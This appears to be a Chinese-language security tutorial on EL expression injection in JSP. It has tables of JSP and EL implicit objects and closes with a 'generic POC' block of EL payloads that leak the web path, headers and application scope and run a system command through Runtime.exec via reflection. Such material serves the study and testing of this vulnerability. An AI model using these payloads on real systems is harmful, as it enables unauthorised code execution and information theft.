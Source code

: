 # EL表达式注入漏洞

JSP 有 9 个隐式对象，如下

| request     | **HttpServletRequest** 接口的实例                            |
| ----------- | ------------------------------------------------------------ |
| response    | **HttpServletResponse** 接口的实例                           |
| out         | **JspWriter**类的实例，用于把结果输出至网页上                |
| session     | **HttpSession**类的实例                                      |
| application | **ServletContext**类的实例，与应用上下文有关                 |
| config      | **ServletConfig**类的实例                                    |
| pageContext | **PageContext**类的实例，提供对JSP页面所有对象以及命名空间的访问 |
| page        | 类似于Java类中的this关键字                                   |
| Exception   | **Exception**类的对象，代表发生错误的JSP页面中对应的异常对象 |

但其中只有一个 pageContext 是 EL 隐式对象， 还有4个作用域隐式对象，通过映射访问作用域属性，还有参数访问隐式对象、首部访问隐式对象和初始化参数访问隐式对象，如下

| **类别**   | **标识符**       | **描述**                                         |
| ---------- | ---------------- | ------------------------------------------------ |
| JSP        | pageContext      | PageContext 实例对应于当前页面的处理             |
| 作用域     | pageScope        | 与页面作用域属性的名称和值相关联的 Map 类        |
|            | requestScope     | 与请求作用域属性的名称和值相关联的 Map 类        |
|            | sessionScope     | 与会话作用域属性的名称和值相关联的 Map 类        |
|            | applicationScope | 与应用程序作用域属性的名称和值相关联的 Map 类    |
| 请求参数   | param            | 按名称存储请求参数的主要值的 Map 类              |
|            | paramValues      | 将请求参数的所有值作为 String 数组存储的 Map 类  |
| 请求头     | header           | 按名称存储请求头主要值的 Map 类                  |
|            | headerValues     | 将请求头的所有值作为 String 数组存储的 Map 类    |
| Cookie     | cookie           | 按名称存储请求附带的 cookie 的 Map 类            |
| 初始化参数 | initParam        | 按名称存储 Web 应用程序上下文初始化参数的 Map 类 |

先来看看EL表达式在jsp中的写法，造成了命令执行，通用POC

```
//对应于JSP页面中的pageContext对象（注意：取的是pageContext对象）
${pageContext}

//获取Web路径
${pageContext.getSession().getServletContext().getClassLoader().getResource("")}

//文件头参数
${header}

//获取webRoot
${applicationScope}

//执行命令
${pageContext.setAttribute("a","".getClass().forName("java.lang.Runtime").getMethod("exec","".getClass()).invoke("".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null),"calc.exe"))}
```
